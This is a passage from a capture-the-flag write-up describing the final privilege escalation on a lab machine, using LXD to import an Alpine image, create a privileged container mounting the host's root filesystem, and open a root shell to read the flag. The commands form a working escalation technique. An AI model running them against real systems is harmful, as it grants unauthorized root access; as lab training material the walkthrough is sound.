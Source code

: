 Now, we can come back to our `HackTricks` article.

In the `reverse shell` tab, type in order:

```
lxc image import ./alpine*.tar.gz --alias myimage
lxd init
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

#### Disclaimer

It's important to do this from your home directory on the victim machine, or it might fail.

### Get the root flag

When all of the above is done, it is finally time to get the `root` flag.

Type:

```
lxc start mycontainer
```

and then:

```
lxc exec mycontainer /bin/sh
```

![flag](./Screenshots/includedrootflag.png)

`Root` shell just popped out.

The flag is in the `/mnt/root/root` path.

![flag](./Screenshots/includedrootflag2.png)
